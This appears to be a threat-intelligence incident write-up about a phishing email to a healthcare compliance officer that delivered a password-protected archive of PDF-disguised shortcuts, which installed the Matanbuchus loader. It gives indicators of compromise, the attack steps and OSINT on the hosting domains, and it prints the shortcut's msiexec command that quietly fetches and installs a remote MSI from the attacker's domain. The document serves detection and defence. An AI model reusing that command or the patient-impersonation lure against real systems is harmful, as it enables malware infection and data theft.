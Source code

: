 <div align="center">
  
# :space_invader: ardoelur[.]com :space_invader:

## :page_facing_up: Summary :page_facing_up:

<div align="left">
  
Attacker was pretending to be a potential patient who is wanting to see a doctor. Attacker sent a Google Drive link to the compliance officer's email which downloaded a zip file containing shortcuts disguised as PDFs, which downloaded and ran Matanbuchus.

<div align="center">

## :mag_right: Indicators of Compromise :mag:

| Type | Value |
| --- | --- |
| Domain | ardoelur[.]com |
| SHA256 | 053dc08c05a41bb787cc92abe168f9d8134bce97225d925bc5bd7cf74d633bf1 |
| SHA256 | 39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b |
| SHA256 | 66420437b941b2a15cff4ed62f13d8ed51f7fbb9f3a7bee441b12d875a2841b2 |
| SHA256 | 775686b54d18c51c5143183d2c200a01404d626a7ef1141ff28618b0a5dbaeaa |
| SHA256 | 844448b0ce4dea216a6e447e4f7beea6ca989f685b6c7beced41b971f692a591 |
| SHA256 | d4457159fc571c73df674668fd91ef34ae05b748cbe373fa88b54de040054a2d |
| URL | hxxps[://]ardoelur[.]com/Dramatisation[.]msi |
| URL | hxxps[://]drive[.]google[.]com/file/d/1rV36AAHTVHUy2i6wSvpg4YupgQCGyU7n/view?usp=sharing |

## :checkered_flag: Attack Progression :racing_car:

<div align="left">

1) Attacker goes to the victim's company website and finds the compliance officer's email address.
2) Attacker sends an email to the compliance officer pretending to be a potential patient who is needing a recommendation for a doctor. They include a Google Drive link that they say contains their medical files, as well as the password of 1424 for the 7z file.

> The attacker's strategy is to send this to the healthcare compliance officer since they would be the most familiar with HIPAA and would potentially not scan or share any files since they would contain PHI, especially with the security department. They also password protect the 7z file to prevent email security services and AV from scanning the file. This plan fails, however, since the compliance officer does not handle these types of requests, and the documents themselves don't contain any medical information. I was able to verify this by first using an onsite sandbox, which is HIPAA compliant, even if it would have contained PHI.

3) Victim clicks on the Google Drive link: hxxps[://]drive[.]google[.]com/file/d/1rV36AAHTVHUy2i6wSvpg4YupgQCGyU7n/view?usp=sharing

![ardoelur_com (Google Drive) 01](https://github.com/user-attachments/assets/5a6d4535-6c78-4b21-aa65-b10fcc4dba88)

4) Victim downloads _findocs.7z_ ([d4457159fc571c73df674668fd91ef34ae05b748cbe373fa88b54de040054a2d](https://www.virustotal.com/gui/file/d4457159fc571c73df674668fd91ef34ae05b748cbe373fa88b54de040054a2d/detection)).

![ardoelur_com (Google Drive) 02](https://github.com/user-attachments/assets/1189eb7d-726a-414d-8b5f-ed756804f3f4)

5) Victim extracts the contents of _findocs.7z_ using 7-Zip and the password 1424.

![ardoelur_com (findocs) 01](https://github.com/user-attachments/assets/acccb1c1-2588-41b4-9e6f-2ad92480c9ca)

6) _findocs.7x_ contains 5 files:
    - _Inventory.pdf.lnk_ ([775686b54d18c51c5143183d2c200a01404d626a7ef1141ff28618b0a5dbaeaa](https://www.virustotal.com/gui/file/775686b54d18c51c5143183d2c200a01404d626a7ef1141ff28618b0a5dbaeaa/detection))
    - _inventory2.pdf_ ([844448b0ce4dea216a6e447e4f7beea6ca989f685b6c7beced41b971f692a591](https://www.virustotal.com/gui/file/844448b0ce4dea216a6e447e4f7beea6ca989f685b6c7beced41b971f692a591/detection))
    - _Manulife statement with value.pdf_ ([66420437b941b2a15cff4ed62f13d8ed51f7fbb9f3a7bee441b12d875a2841b2](https://www.virustotal.com/gui/file/66420437b941b2a15cff4ed62f13d8ed51f7fbb9f3a7bee441b12d875a2841b2/detection))
    - _Scanned inventory.pdf.lnk_ ([39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b](https://www.virustotal.com/gui/file/39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b/detection))
    - _Statement_2024.lnk_ ([39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b](https://www.virustotal.com/gui/file/39b06b267b30e9e47ae5aa6f8291fe8bd9fdb8cee2bf7cec8cbe7eae0d48342b/detection))

![ardoelur_com (findocs) 02](https://github.com/user-attachments/assets/c3e42b29-0876-4925-ab88-98f9ea2b6d1e)

> _Scanned inventory.pdf.lnk_ and _Statement_2024.lnk_ are the same file, just with different names. The only malicious files are the shortcuts: _Inventory.pdf.lnk_, _Scanned inventory.pdf.lnk_, and _Statement_2024.lnk_. _Manulife statement with value.pdf_ is an encrypted PDF, which is not called upon at any point during the attack and cannot be opened with the 1424 password. _inventory2.pdf_ is a benign PDF of an inventory of assets for a probated estate in New Castle County in Delaware. The form is filled out with personal information. A portion of this document is listed below; however, I have cropped out much of the document to protect the PII contained within it. 

![ardoelur_com (findocs) 03](https://github.com/user-attachments/assets/b4a219e5-4ef3-4291-afe3-c472e13e1042)

7) The victim clicks on one of the shortcuts disguised as PDFs, which executes the following code:

```batchfile
"C:\Windows\system32\msiexec[.]exe" -package httPs:/\ardoelur.com/Dramatisation.msi -q
```

![ardoelur_com (findocs) 04](https://github.com/user-attachments/assets/cf353c4c-02a5-4efc-8d9f-79559fba002d)

8) _Dramatisation.msi_ ([053dc08c05a41bb787cc92abe168f9d8134bce97225d925bc5bd7cf74d633bf1](https://www.virustotal.com/gui/file/053dc08c05a41bb787cc92abe168f9d8134bce97225d925bc5bd7cf74d633bf1/detection)) is downloaded and executed. _Dramatisation.msi_ is a Matanbuchus Loader, which is a MaaS (Malware-as-a-Service). Information concerning Matanbuchus can be found here on Palo Alto's website: [Matanbuchus: Malware-as-a-Service with Demonic Intentions](https://unit42.paloaltonetworks.com/matanbuchus-malware-as-a-service/).

<div align="center">

## :bulb: OSINT Insights :bulb:

<div align="left">
  
1) [URLScan](https://urlscan.io/result/3dd1cd27-cb8f-4374-8b15-cbde72b9055b/#summary) shows a scan of _hxxps[://]ardoelur[.]com/project/blog666/_ on June 21st, 2024. The screenshot shows that this is the login page for the Matanbuchus Loader this attacker is using.

![3dd1cd27-cb8f-4374-8b15-cbde72b9055b](https://github.com/user-attachments/assets/e4dc29e7-7f6c-46ea-9b2d-7d0da36c4401)

2) _ardoelur[.]com_ is hosted on a Russian server at _194[.]67[.]193[.]43_.

![194_67_193_43 (Historical A)](https://github.com/user-attachments/assets/dc392312-fc58-4084-be28-e7b9b4fa2a13)

3) Two other domains are currently utilizing _194[.]67[.]193[.]43_: _comarmo[.]com_ and _maduroma[.]com_. Both domains have the same Matanbuchus dashboard in the same file path: [_hxxps[://]comarmo[.]com/project/blog666/_](https://urlscan.io/result/c56882c5-7aa3-4c2d-b745-35330e53a637/) and [_hxxps[://]maduroma[.]com/project/blog666/_](https://urlscan.io/result/da20d303-4e7c-427a-94ac-378ede03cee4/).

4) _Dramatisation.msi_ is using the British English version. The American English version is spelled _dramatization_.
